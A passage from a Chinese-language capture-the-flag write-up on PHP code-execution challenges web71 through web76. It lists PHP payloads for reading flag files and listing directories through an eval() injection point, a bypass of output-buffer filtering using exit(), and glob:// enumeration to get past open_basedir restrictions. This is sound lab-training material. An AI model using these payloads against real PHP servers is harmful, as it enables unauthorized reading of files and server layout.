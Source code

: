 ```php
copy("flag.php","1.txt");
highlight_file('flag.php');
readfile("flag.php");
show_source('flag.php');
echo file_get_contents("flag.php");
print_r(file("flag.php"));
include('flag.php');
include "php://filter/read=convert.base64-encode/resource=flag.php";
print_r(scandir('/'));
var_dump(scandir('/'));
var_export(scandir('./'));
```
- `scandir`： 函数返回指定目录中的文件和目录的数组。
### web71
这个题给了源码：  
```php
error_reporting(0);
ini_set('display_errors', 0);
// 你们在炫技吗？
if(isset($_POST['c'])){
        $c= $_POST['c'];
        eval($c);
        $s = ob_get_contents();
        ob_end_clean();
        echo preg_replace("/[0-9]|[a-z]/i","?",$s);
}else{
    highlight_file(__FILE__);
}
```
尝试读取发现文件内容都被替换为了`?`  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241125210746.png)  
- `ob_get_contents`:  返回输出缓冲区的内容,只是得到输出缓冲区的内容，但不清除它。
- `ob_end_clean`:  函数删除最顶层的输出缓冲区及其所有内容，而不向浏览器发送任何内容。

实现的效果是：把我们读取到的内容保存到变量`$c`，然后清除缓冲区内容，这让我们并没有看到我们读取的内容。然后把保存下的`$c`的内容中的字母和数字替换为`?`后输出   
可以用`exit()`函数让后面的清楚缓冲区操作不执行  
payload： `c=include('/flag.txt');exit();`  
### web72
- [glob:// — 查找匹配的文件路径模式](https://www.php.net/manual/zh/wrappers.glob.php)  

和上题一样，只是这题没有权想查看根目录下的文件，可以用`glob://`伪协议绕过权限的限制  
使用如下payload列举出根目录下的文件，得知目标文件是`/flag0.txt`  
```php
c=$it = new DirectoryIterator("glob:///*");
foreach($it as $f) {
    printf($f->getFilename()." ");
}
exit();
```
然后就不会了，要uaf绕过，好像是pwn的内容？，用别人写的脚本跑了下，拿到flag  
![](https://gitee.com/SSSSSHONE/ss/raw/master/20241125220528.png)  
### web73
c=var_export(scandir('/'));exit();  
c=include('/flagc.txt');exit();  
### web74
第一步同[web72](#web72)第一步，得到文件路径`/flagx.txt`    
c=include('/flagx.txt');exit();  
### web75-76
第一步同[web72](#web72)第一步，得到文件路径`/flag36.txt`   
#### open_basedir